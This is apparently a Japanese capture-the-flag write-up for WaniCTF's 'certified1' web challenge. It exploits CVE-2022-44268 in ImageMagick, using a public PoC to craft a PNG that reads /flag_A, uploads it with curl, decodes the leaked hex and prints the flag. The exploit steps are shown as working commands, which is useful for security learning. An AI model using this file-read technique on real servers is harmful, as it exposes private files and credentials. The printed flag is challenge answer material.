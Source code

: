 # certified1:Web:228pts
最近流行りの言語を使った安全なウェブアプリが完成しました！  
We have released a secure web application using a state-of-the-art language!  
[https://certified-web.wanictf.org](https://certified-web.wanictf.org/)  

---

この問題にはフラグが2つ存在します。ファイル`/flag_A`にあるフラグをcertified1に、環境変数`FLAG_B`にあるフラグをcertified2に提出してください。  
There are two flags in this problem. Please submit the flag in file `/flag_A` to certified1 and one in the environment variable `FLAG_B` to certified2.  
Note: "承認, ワニ博士" means "Approved, Dr. Wani" in Japanese.  

[web-certified1.zip](web-certified1.zip)  

# Solution
問題文より2つフラグがあるようなので、初めに簡単そうな`/flag_A`の読み取りを目指す。  
URLにアクセスすると、承認欲求を満たせるサービスのようだ。  
![site1.png](site/site1.png)  
画像をあげると、承認される。  
![site2.png](site/site2.png)  
ソースを見てやるとrustで書かれているようで、アップロードしたファイルを以下のような処理に渡している。  
```rust
~~~
    let child = Command::new("sh")
        .args([
            "-c",
            "timeout --signal=KILL 5s magick ./input -resize 640x480 -compose over -gravity southeast ./overlay.png -composite ./output.png",
        ])
        .current_dir(working_directory)
        .stdin(Stdio::null())
        .stdout(Stdio::null())
        .stderr(Stdio::piped())
        .spawn()
        .context("Failed to spawn")?;
~~~
```
ImageMagickのようだ。  
Dockerfileを見ると以下の通りで7.1.0-51とある。  
```Dockerfile
~~~
ARG MAGICK_URL="https://github.com/ImageMagick/ImageMagick/releases/download/7.1.0-51/ImageMagick--gcc-x86_64.AppImage"
RUN curl --location --fail -o /usr/local/bin/magick $MAGICK_URL && \
    chmod 755 /usr/local/bin/magick
~~~
```
pngからpngの変換で、CVE-2022-44268のLFIが出ていたことを思い出す。  
バージョン的には7.1.0-49なはずだが、ひとまず[PoC](https://github.com/Sybil-Scan/imagemagick-lfi-poc.git)で刺して`/flag_A`を読み取ってみる。  
```bash
$ git clone https://github.com/Sybil-Scan/imagemagick-lfi-poc.git
$ cd imagemagick-lfi-poc/
$ python generate.py -f '/flag_A' -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /flag_A
   [>] PoC PNG generated > exploit.png
$ curl https://certified-web.wanictf.org/create -F file=@exploit.png -L -o res.png
$ identify -verbose res.png
~~~
    Raw profile type:

      42
464c41477b3768655f736563306e645f663161395f31735f77343174316e395f6630725f
793075217d0a
~~~
$ python -c 'print(bytes.fromhex("464c41477b3768655f736563306e645f663161395f31735f77343174316e395f6630725f793075217d0a"))'
b'FLAG{7he_sec0nd_f1a9_1s_w41t1n9_f0r_y0u!}\n'
```
`/flag_A`を読み取れ、flagが得られた。  

## FLAG{7he_sec0nd_f1a9_1s_w41t1n9_f0r_y0u!}